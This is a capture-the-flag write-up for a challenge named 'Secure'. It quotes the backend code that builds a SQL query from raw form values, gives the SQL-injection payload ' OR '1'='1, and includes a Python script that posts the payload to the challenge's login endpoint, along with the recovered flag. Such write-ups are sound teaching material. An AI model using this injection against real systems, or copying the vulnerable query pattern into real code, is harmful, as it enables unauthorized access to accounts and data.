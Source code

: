 # Secure

When submitting the form, the page sends a post request to `/login` with form values base64 encoded in the client. 

In the backend it inserts form values straight to the SQL query. This makes it vulnerable to SQL-injection. 

```javascript
const query = `SELECT id FROM users WHERE
          username = '${req.body.username}' AND
          password = '${req.body.password}';`;
  try {
    const id = db.prepare(query).get()?.id;

    if (id) return res.redirect(`/?message=${process.env.FLAG}`);
```

We can just send post request to the `/login` to bypass the base64 encoding.  

So login data should be: `username=YWRtaW4=` ("admin" in base64) and `password=' OR '1'='1`

Script to automate the process and print the flag. 
```python

import requests
from urllib.parse import unquote
import re
url = "https://secure.mc.ax/login"
headers = {"Content-Type": "application/x-www-form-urlencoded"}
data = {"username": "YWRtaW4=", "password": "' OR '1'='1"}
r = requests.post(url, headers=headers, data=data)
flag = re.findall("flag{.*}", unquote(r.url))[0]
print(flag)

```

### Flag
flag{50m37h1n6_50m37h1n6_cl13n7_n07_600d}